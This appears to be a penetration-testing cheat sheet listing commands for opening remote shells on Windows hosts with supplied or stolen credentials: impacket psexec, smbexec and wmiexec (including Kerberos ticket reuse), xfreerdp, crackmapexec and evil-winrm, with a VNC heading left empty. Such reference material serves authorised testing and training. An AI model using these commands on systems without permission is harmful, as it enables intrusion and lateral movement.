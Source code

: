 # Shell
## SMB & RPC: 445, 135
```bash
impacket-psexec '<DOMAIN>/<USER>:<PASS>@<IP>'
impacket-smbexec '<DOMAIN>/<USER>:<PASS>@<IP>'
impacket-wmiexec '<DOMAIN>/<USER>:<PASS>@<IP>'
KRB5CCNAME='<CCACHE>' impacket-smbexec -k -no-pass '<DOMAIN>/<USER>@<TARGET>'
psexec.py '<DOMAIN>/<USER>:<PASS>@<IP>' '<COMMANDS>'
```

## RDP: 3389
```bash
impacket-rdp_check '<DOMAIN>/<USER>:<PASS>@<IP>' # check

xfreerdp /v:<IP> /u:'DOMAIN\<USER>' /p:'<PASS>' /cert:ignore /dynamic-resolution /drive:share,/tmp +clipboard

remmina
```

## WinRM: 5985, 5986
```bash
crackmapexec winrm <IP> -u '<USER>' -p '<PASS>' # check

evil-winrm -i <IP> -u '<USER>' -p '<PASS>'
```

## VNC
